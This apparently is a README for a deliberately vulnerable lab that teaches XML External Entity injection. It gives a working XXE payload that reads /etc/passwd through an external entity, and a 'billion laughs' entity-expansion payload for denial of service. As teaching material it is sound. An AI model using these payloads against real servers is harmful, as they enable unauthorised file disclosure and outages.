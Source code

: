 # Vulnerability XML External Entity Injection 

This vulnerability allows an attacker to intercept data through XML. 
It is possible to read files *by manipulating new entities*. 
In some cases, attackers can escalate or compromise the backend, such as *accessing confidential information* or even changing data in the system.
Make theserver insecure and allowing the attacker to make requests *without traceability*.

Why this happen? Because the server isn't validating the content of XML.

## Scenario 1: XXE

## How to execute

1. Run the server;
2. Testing XML parser

```xml
<?xml version="1.0" encoding="UTF-8"?>
<library>
    <book>
        <title>The Great Gatsby</title>
        <author>F. Scott Fitzgerald</author>
        <year>1925</year>
        <genre>Fiction</genre>
    </book>
 </library>
 ```
 

3. Transforming the content for a new entity "System" with it's external, adding the root and replacing by "example" wih an internal object.

```xml
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```

## Scenario 2 (XXE): Billion Laugh Attack

 It occurs when the xml parser continually expands each entity within itself, which overloads the server and results in denial of service.

## How to execute

1. Insert the input

```xml
<!DOCTYPE data [
<!ENTITY a0 "vulnerabilidade" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">]>
<data>&a1;</data>
 ```

## References

https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity

https://portswigger.net/web-security/xxe

https://portswigger.net/web-security/ssrf

https://bugbase.ai/blog/demystifying-xxe-injection
